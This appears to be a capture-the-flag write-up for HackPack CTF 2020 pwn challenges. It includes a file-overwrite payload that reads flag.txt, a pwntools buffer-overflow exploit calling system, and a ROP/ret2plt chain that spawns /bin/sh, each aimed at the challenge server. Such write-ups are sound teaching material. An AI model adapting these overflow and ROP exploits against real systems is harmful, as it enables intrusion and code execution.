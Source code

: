 # hackpack ctf 2020

## pwn

### jsclean

Flag: flag{Js_N3v3R_FuN_2_Re4d}

Workflow:
input a js filename and file content
the server will write the content to the js file
Finally, the server will call index.js which jsclean(beautify) the code you've just written

```lang=c
p = subprocess.run(['/usr/local/bin/node','index.js',
'-f',js_name],stdout=subprocess.PIPE);
```

Solution: overwrite the index.js to read flag.txt

#### payload

```lang=c
input filename: index.js
intput content:  var fs = require('fs'); data = fs.readFileSync("flag.txt"); console.log(data.toString())
```

### mouseTrap

flag: flag{C0nTr0l_S1Z3_4_$h3LL}

Basic BoF, without canary, PIE
Read function with overwritten buffer, call the call_me function to rce

**remark**: Simply jump to function call_me will cause movaps error, which implies stack alignment issue, so jump to the line which calls system_plt instead

#### payload

```lang=c
from pwn import *

r = remote('cha.hackpack.club',41719)
flag = p64(0x40071b)	# system_plt

payload = 'abcdefghijklmnopqrstuvwx' + p64(0x200)
context.arch='amd64'
r.recvuntil("Name: ")
r.send(payload)
r.recvuntil(": ")
bof = "b" * 0x18 + flag
r.send(bof)
r.interactive()

```

### Climb

flag: flag{w0w_A_R34L_LiF3_R0pp3r!}

ROP + ret2plt

call readplt and write binsh to bss section
then set rdi to the string /bin/sh and call system_plt

**Remark**: There is also stack-alignment(movaps error) issue in this challenge, so insert a ret in the ROP for stack alignment

#### payload

```lang=c
from pwn import *

pop_rdi = p64(0x0000000000400743)
pop_rdx = p64(0x0000000000400654)
pop_rsi_r15 = p64(0x0000000000400741)
ret = p64(0x00000000004004fe)

bss = p64(0x601090)
callme = p64(0x0000000000400530)
readplt = p64(0x0000000000400550)

r = remote('cha.hackpack.club', 41702)
ropchain = flat(
	ret,	# movaps stack alignment
	pop_rdi,
	p64(0x0),
	pop_rdx,
	p64(0x8),
	pop_rsi_r15,
	bss,
	p64(0x0),
	readplt,
	pop_rdi,
	bss,
	callme
)

payload = 'a' * 40 + ropchain

r.recvuntil("? ")
r.send(payload + payload)
r.send("/bin/sh\0")
r.interactive()
```

### Humpty Dumpty's SSH Account

**Failed**

Shell, bash command, try to become superuser
